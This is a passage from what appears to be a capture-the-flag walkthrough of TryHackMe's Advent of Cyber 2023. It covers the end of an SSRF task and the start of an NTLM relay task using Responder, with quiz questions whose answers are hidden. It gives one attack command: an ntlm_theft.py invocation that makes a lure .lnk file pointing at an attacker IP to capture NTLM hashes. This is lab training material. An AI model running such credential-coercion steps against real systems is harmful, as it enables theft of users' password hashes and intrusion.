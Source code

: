    To get our flag we must remove the machine of McSkidy.

   ![D22 Removed](Pictures/Advent_Of_Cyber_2023_D22_Removed.png)

   ><details><summary>Click for answer</summary></details>

If you enjoyed this task, feel free to check out the [SSRF](https://tryhackme.com/room/ssrfqi) room.

### Day 23 Relay All the Way

In this task we will be looking at coercing authentication techniques using Responder to get NTLM hashes from users we can crack to gain access to the server.

1. What is the name of the AD authentication protocol that makes use of tickets?

   The answer to this question can be found in the text.

   ><details><summary>Click for answer</summary></details>

2. What is the name of the AD authentication protocol that makes use of the NTLM hash?

   The answer to this question can be found in the text.

   ><details><summary>Click for answer</summary></details>

3. What is the name of the tool that can intercept these authentication challenges?

   The answer to this question can be found in the text.

   ><details><summary>Click for answer</summary></details>

4. What is the password that McGreedy set for the Administrator account?

   Lets first create our NTLM hash theft file using `ntlm_theft` found [here](https://github.com/Greenwolf/ntlm_theft).

   ```cmd
   python3 ntlm_theft.py -g lnk -s 10.18.78.136 -f stealthy
   ```
